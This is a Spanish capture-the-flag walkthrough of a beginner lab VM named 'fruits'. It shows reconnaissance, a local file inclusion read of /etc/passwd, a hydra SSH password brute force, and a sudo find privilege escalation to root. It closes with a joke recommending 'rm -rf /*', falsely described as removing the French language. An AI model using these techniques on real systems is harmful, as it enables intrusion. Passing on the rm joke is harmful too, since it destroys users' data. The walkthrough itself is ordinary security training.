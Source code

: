 # fruits

## Dificultad: Principiante

Luego de comprobar la conexion con la maquina virtual, podemos empezar

![Conexion exitosa](./imagenes/ping.png)

# Reconocimiento

Como es costumbre, comenzaremos usando nmap para escanear la red en busca de los servicios que tiene la maquina dentro.

```bash
nmap -sV -p- 192.168.237.129 -Pn
```

- -sV: Detecta versiones de servicios
- -Pn: No realiza ping a la máquina
- -p-: Escanea todos los puertos

![Escaneo de puertos](./imagenes/nmap.png)

Revisando los resultados del escaneo, podemos ver que hay un servicio de SSH corriendo en el puerto **22** y un servicio **HTTP** en el puerto 80. Por lo que podemos intuir que hay algun usuario que buscar para conectar por el ssh.

Revisando la pagina al entrar por el navegador, podemos ver que hay un sitio web con un tema de frutas con un buscador.

![Pagina de frutas](./imagenes/pagina.png)

Al ingresar algo dentro del buscador, se hace una peticion POST, pero retorna un error 404, sin encontrar algo dentro.

![Error 404](./imagenes/404.png)

Podemos notar que el sitio web hace una peticion con el parametro php `busqueda` del archivo del mismo nombre por lo que es posible que el contenido este almacenado en algun otro archivo en los directorios de la aplicacion.

Para buscar mas dentro de la aplicacion utilizaremos dirbuster para hacer algo de fuzzing y observar algun otro contenido interesante.

```bash
dirbuster
```

Utilizaremos el dirbuster con uno de sus diccionarios por defecto para buscar archivos y directorios ocultos en la aplicacion, ademas añadiremos la funcion para buscar archivos con formato `.php`

![Dirbuster](./imagenes/dirbuster.png)

Podemos ver que dirbuster ha encontrado un archivo llamado `fruits.php` en el directorio raiz.

![Fruits.php](./imagenes/encontrado.png)

Sin embargo, parece que el archivo `fruits.php` no contiene nada dentro, asi que me lleva a que podriamos usar LFI para intentar acceder a otros archivos en el servidor.

Para poder averiguar que clase de LFI podemos hacer y buscar que podemos hacer, podemos la herramienta `nikto` que hace pruebas automaticas para buscar vulnerabilidades en las url.

```bash
nikto -h http://192.168.237.129/fruits.php
```

![nikto](./imagenes/nikto.png)

Y en la linea final podemos ver que en colocando `/fruits.php/viewpage.php?file=/etc/passwd` al final de la url lograra hacer una lectura al archivo `/etc/passwd` para obtener información sensible del sistema, especificamente los usuarios accesibles.

![Lectura de /etc/passwd](./imagenes/lfi.png)

Y al acceder a la url `http://192.168.237.129/fruits.php/viewpage.php?file=/etc/passwd` podemos ver que se logra leer el contenido del archivo correctamente

![Lectura de /etc/passwd](./imagenes/passwd.png)

Y con esto tenemos el usuario que estabamos buscando: `bananaman`

# Entrega

Con el usuario `bananaman` en mano, podemos intentar acceder al servicio SSH que se estaba ejecutando en el puerto 22. Utilizaremos `hydra` con el diccionario `rockyou.txt` 

```bash
hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.237.129
```

![hydra](./imagenes/hydra.png)

Al ejecutar el comando, podemos ver que `hydra` ha encontrado la contraseña correcta para el usuario `bananaman`: `celtic`

Con esto podremos conectarnos por ssh al servidor

```bash
ssh bananaman@192.168.237.129
```

![ssh](./imagenes/ssh.png)

Y estamos dentro!

# Escalación de privilegios

Una vez dentro utilizamos el comando `sudo -l` para buscar los permisos de sudo que tiene el usuario `bananaman`.

```bash
bananaman@Fruits:~$ sudo -l
Matching Defaults entries for bananaman on Fruits:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bananaman may run the following commands on Fruits:
    (ALL) NOPASSWD: /usr/bin/find
```

podemos observar que puede usar el comando `find` como `root` sin necesidad de contraseña, lo que podría ser útil para elevar privilegios.

Buscando en `GTFOBins` podemos encontrar un payload que nos permitira elevar privilegios en donde podemos ejecutar un shell como root:

```bash
sudo find . -exec /bin/bash \; -quit
```

![root](./imagenes/root.png)

Y con esto ya tenemos acceso como root !

Ahora podemos ejecutar `rm -rf /*` para eliminar el idioma frances para que vaya mas rapido :).

![rm](./imagenes/rm.png)
